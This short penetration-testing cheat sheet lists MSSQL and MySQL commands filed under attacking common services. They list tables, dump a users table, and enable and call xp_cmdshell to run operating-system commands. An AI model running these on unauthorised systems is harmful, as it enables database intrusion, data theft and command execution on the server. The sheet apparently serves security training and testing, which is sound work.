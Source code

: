 ## attacking common services - mssql - select database
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
use <database>
go
```

## attacking common services - mysql - show tables
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
show tables;
```

## attacking common services - mssql - show tables
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
select table_name FROM <database>.information_schema.tables
go
```

## attacking common services - mysql - select all data from table
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
select * from users;
```

## attacking common services - mssql - select all data from table
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
select * from users
go
```

## attacking common services - mssql - MSSQL command execution XP_CMDSHELL (with privileges)
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
xp_cmdshell 'whoami'
go
```

## attacking common services - mssql - enable MSSQL command execution (with privileges)
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
To allow advanced options to be changed.
EXECUTE sp_configure 'show advanced options', 1
go

To update the currently configured value for advanced options.
RECONFIGURE
go

To enable the feature.
EXECUTE sp_configure 'xp_cmdshell', 1
go

To update the currently configured value for this feature.
RECONFIGURE
```